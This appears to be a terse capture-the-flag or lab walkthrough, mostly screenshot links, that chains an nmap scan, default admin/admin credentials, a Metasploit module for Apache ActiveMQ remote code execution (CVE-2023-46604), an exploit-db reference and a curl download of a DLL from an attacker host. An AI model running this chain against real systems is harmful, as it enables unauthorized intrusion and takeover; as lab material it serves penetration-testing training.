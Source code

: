 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9978a913-08ab-40d8-a1c8-338fa6805d66)

```
nmap -p- 192.168.2.8 -v -sC -sV -Pn
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84fb52b4-7c16-4c90-adad-6d26a3fd40d8)

admin/admin

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f885f3e9-c4e7-4b48-9bb3-d56c39be9796)

msf6

multi/misc/apache_activemq_rce_cve_2023_46604

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ab3f585e-50c7-4c02-8d33-abd7a511b7b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12c6196c-cf44-4ba4-93fd-f9e5cc911e85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05f63ed2-0bda-459c-b3ec-7f0ecae15b9a)

https://www.exploit-db.com/exploits/51267

```
curl -O http://192.168.100.IP:8000/TextShaping.dll
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2186c168-638f-43da-9d82-f159611a0753)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dcc902b-1063-4e27-bc3d-b9f067f7be60)
